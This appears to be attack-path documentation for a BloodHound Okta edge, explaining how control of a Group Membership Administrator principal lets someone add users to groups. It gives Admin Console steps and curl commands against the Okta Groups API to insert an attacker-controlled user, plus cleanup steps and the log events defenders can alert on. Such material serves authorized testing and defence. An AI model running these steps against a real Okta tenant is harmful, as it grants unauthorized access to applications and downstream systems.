

## General Information

The traversable Okta_GroupMembershipAdmin edges represent Group Membership Administrator role assignments. Group Membership Administrators can add and remove members from groups within their assigned scope but cannot modify the groups themselves.


```mermaid
graph LR
    u1("Okta_User john\@contoso.com")
    g1("Okta_Group Marketing")
    g2("Okta_Group Sales")
    u1 -- Okta_GroupMembershipAdmin --> g1
    u1 -- Okta_GroupMembershipAdmin --> g2
```

## Abuse Info

An attacker who controls the source principal can add or remove users in the destination group through the built-in Group Membership Administrator role. This can grant access to applications, provisioning targets, downstream SaaS roles, sign-on policies, or MFA policies that depend on the group. This role does not grant full group administration; the abuse is membership-focused.

For a user source, sign in as that user. For a group source, compromise any member of the source group. For an application source, authenticate as the service app or client and use its management API access.

Using the Admin Console:

1. Authenticate to Okta as the source user, as a member of the source group, or as the source service application.
2. Open **Directory** > **Groups** and select the destination group.
3. Add an attacker-controlled Okta user to the group.
4. Re-authenticate as the added user or refresh that user's sessions and OAuth/OIDC tokens.
5. Launch any newly assigned applications or wait for group push and provisioning to update downstream systems.

Using the Okta API:

1. Set the Okta org URL, a token for the source principal, the destination group ID, and the controlled user ID.

    ```bash
    export OKTA_ORG="https://contoso.okta.com"
    export OKTA_API_TOKEN="REDACTED"
    export TARGET_GROUP_ID="00g..."
    export CONTROLLED_USER_ID="00u..."
    ```

2. Confirm the destination group is an Okta-managed group. The Groups API can directly modify membership for `OKTA_GROUP` groups; imported `APP_GROUP` membership is managed by the source application or directory.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TARGET_GROUP_ID" \
      | jq '{id, type, name: .profile.name}'
    ```

3. Add the controlled user to the destination group.

    ```bash
    curl -i -sS -X PUT \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TARGET_GROUP_ID/users/$CONTROLLED_USER_ID"
    ```

4. Verify the membership and refresh the controlled user's sessions or tokens.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TARGET_GROUP_ID/users?limit=200" \
      | jq -r '.[] | select(.id == env.CONTROLLED_USER_ID) | [.id, .profile.login] | @tsv'
    ```

5. If the group is pushed or synced downstream, wait for provisioning or trigger the relevant downstream sync before using the entitlement.

## Cleanup after Abuse

Cleanup removes temporary users added to the managed destination group, restores any removed legitimate members, and lets downstream provisioning revoke access granted by the changed membership.

Cleanup using Admin Console:

1. Open **Directory** > **Groups** and select the destination group.
2. Remove the attacker-controlled user from the members list.
3. Restore any legitimate members that were removed.
4. If the group is pushed or synced downstream, run the relevant provisioning job or wait for the next cycle.
5. Verify the external application group or role returned to its original membership.

Cleanup using API:

1. Remove the temporary user from the Okta-managed destination group.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TARGET_GROUP_ID/users/$CONTROLLED_USER_ID"
    ```

2. Re-add legitimate users if they were removed.

    ```bash
    curl -i -sS -X PUT \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TARGET_GROUP_ID/users/$LEGITIMATE_USER_ID"
    ```

3. Query the group and confirm only expected users remain.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TARGET_GROUP_ID/users?limit=200" \
      | jq -r '.[] | [.id, .profile.login] | @tsv'
    ```

4. Wait for downstream group push, SCIM, or application provisioning to revoke the temporary access.

## Opsec Considerations

Adding or removing group members creates Okta System Log events such as `group.user_membership.add` and `group.user_membership.remove`. If the group drives app assignments or provisioning, related downstream events can include `application.user_membership.add`, `application.user_membership.remove`, `application.provision.user.sync`, and `application.provision.group_membership.update`.

Membership changes to privileged application groups, groups pushed to SaaS applications, and groups used by sign-on or MFA policy rules are common alert targets. The API path records caller, source IP, request URI, target group, and target user.

## References

- [Okta Group membership administrators](https://help.okta.com/en-us/content/topics/security/administrators-group-membership-admin.htm)
- [Okta Groups API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/Group/)
- [Okta System Log event types](https://developer.okta.com/docs/reference/api/event-types/)
- [SpecterOps: Discovering Unexpected Okta Attack Paths with BloodHound](https://specterops.io/blog/2026/03/23/discovering-unexpected-okta-attack-paths-with-bloodhound/)
- [Eli Guy: Attack Techniques in Okta - Part 2 - Okta RBAC Attacks](https://xmcyber.com/blog/okta-rbac-attacks/)
